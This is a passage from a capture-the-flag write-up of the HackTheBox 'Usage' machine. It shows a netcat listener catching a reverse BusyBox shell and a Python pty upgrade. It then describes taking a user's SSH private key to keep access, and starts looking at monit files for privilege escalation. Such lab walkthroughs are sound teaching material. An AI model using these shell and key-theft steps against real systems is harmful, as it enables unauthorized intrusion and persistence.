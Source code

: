Lets URL Encode a reverse Busybox shell and issue it as our command to catch a shell back as user dash:

```
┌──(ryan㉿kali)-[~/HTB/Usage]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.167] from (UNKNOWN) [10.129.186.156] 33204
whoami
dash
hostname
usage
python3 -c 'import pty;pty.spawn("/bin/bash")'
dash@usage:/var/www/html/project_admin/public/uploads/images$
```

We can now grab the user.txt flag:

![htb_usage_user.png](../assets/usage_assets/htb_usage_user.png)

### Privilege Escalation

Let's grab dash's `id_rsa` key from his `/.ssh` folder and use it for some persistence in case our shell dies:

```
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Usage]
└─$ chmod 600 id_rsa  
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Usage]
└─$ ssh -i id_rsa dash@10.129.186.156                                                                                   
The authenticity of host '10.129.186.156 (10.129.186.156)' can't be established.
ED25519 key fingerprint is SHA256:4YfMBkXQJGnXxsf0IOhuOJ1kZ5c1fOLmoOGI70R/mws.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.186.156' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)
```

Looking at the hidden files in Dash's home directory we find a few monit files:

```
dash@usage:~$ ls -la
total 56
drwxr-x--- 7 dash dash 4096 Dec 12 17:41 .
drwxr-xr-x 4 root root 4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root    9 Apr  2  2024 .bash_history -> /dev/null
-rw-r--r-- 1 dash dash 3771 Jan  6  2022 .bashrc
drwx------ 3 dash dash 4096 Aug  7  2023 .cache
drwxrwxr-x 4 dash dash 4096 Aug 20  2023 .config
drwxrwxr-x 3 dash dash 4096 Aug  7  2023 .local
-rw-r--r-- 1 dash dash   32 Oct 26  2023 .monit.id
-rw-r--r-- 1 dash dash    5 Dec 12 17:41 .monit.pid
-rwx------ 1 dash dash  707 Oct 26  2023 .monitrc
-rw------- 1 dash dash 1192 Dec 12 17:41 .monit.state
```